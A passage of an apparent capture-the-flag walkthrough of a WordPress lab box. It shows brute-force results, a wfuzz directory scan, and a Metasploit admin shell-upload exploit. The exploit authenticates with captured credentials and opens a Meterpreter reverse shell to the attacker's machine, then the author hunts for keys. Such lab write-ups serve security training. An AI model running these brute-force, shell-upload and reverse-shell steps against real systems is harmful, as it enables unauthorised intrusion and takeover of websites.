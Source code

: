 [+] Finished: Thu May 11 04:48:38 2017<br>
[+] Requests Done: 5680<br>
[+] Memory used: 27.504 MB<br>
[+] Elapsed time: 00:01:18<br>

Thanks god I saved few hours. <br>
=> I still don't understand why WP is not implementing a simple security : blocking the user (with the login) use cache system for like 5min after 10 failed attempts. TTL FTW.<br>

# Login to WP BO <br>
root@kali:~# wfuzz -c -z file,/usr/share/wfuzz/wordlist/vulns/apache.txt --hc 404 http://192.168.1.31/FUZZ<br>
********************************************************<br>
* Wfuzz 2.1.3 - The Web Bruteforcer                      *<br>
********************************************************<br>
Target: http://192.168.1.31/FUZZ<br>
Total requests: 30<br>
==================================================================<br>
ID	Response   Lines      Word         Chars          Request    <br>
==================================================================<br>
00000:  C=403      9 L	      24 W	    218 Ch	  ".htaccess"<br>
00001:  C=403      9 L	      24 W	    218 Ch	  ".htpasswd"<br>
00016:  C=200     30 L	      98 W	   1077 Ch	  "index.html"<br>

Total time: 0.676012<br>
Processed Requests: 30<br>
Filtered Requests: 27<br>
Requests/sec.: 44.37784<br>

# So let's dig in WP 
Thought I had something there http://192.168.1.31/wp-admin/user-edit.php?user_id=5&wp_http_referer=%2Fwp-admin%2Fusers.php but let's move to something more offensive.<br>

# Upload Shell since we got USERNAME/PASSWORD of WP <br>

Using (wp_admin_shell_upload) I had to bypass the WP check : https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/webapp/wp_admin_shell_upload.rb since it was failing with "it's not a wordpress anymore"<br>
msf exploit(wp_admin_shell_upload) > reload<br>
[*] Reloading module...<br>
msf exploit(wp_admin_shell_upload) > exploit<br>
msf exploit(wp_admin_shell_upload) > exploit<br>
[+] Started reverse TCP handler on 192.168.1.32:4444 <br>
[+] Authenticating with WordPress using elliot:ER28-0652...<br>
[+] Authenticated with WordPress<br>
[+] Preparing payload...<br>
[+] Uploading payload...<br>
[+] Executing the payload at /wp-content/plugins/rZzTsNwPGd/MYcAQqBqLc.php...<br>
[+] Sending stage (33986 bytes) to 192.168.1.31<br>
[+] Meterpreter session 1 opened (192.168.1.32:4444 -> 192.168.1.31:36303) at 2017-05-11 06:19:33 -0400<br>
[+] This exploit may require manual cleanup of 'MYcAQqBqLc.php' on the target<br>
[+] This exploit may require manual cleanup of 'rZzTsNwPGd.php' on the target<br>
meterpreter > ls<br>
Listing: /opt/bitnami/apps/wordpress/htdocs/wp-content/plugins/rZzTsNwPGd<br>
# Finding key 2 and 3  
meterpreter > ls /home/<br>
Listing: /home/<br>
===============<br>
Mode             Size  Type  Last modified              Name<br>
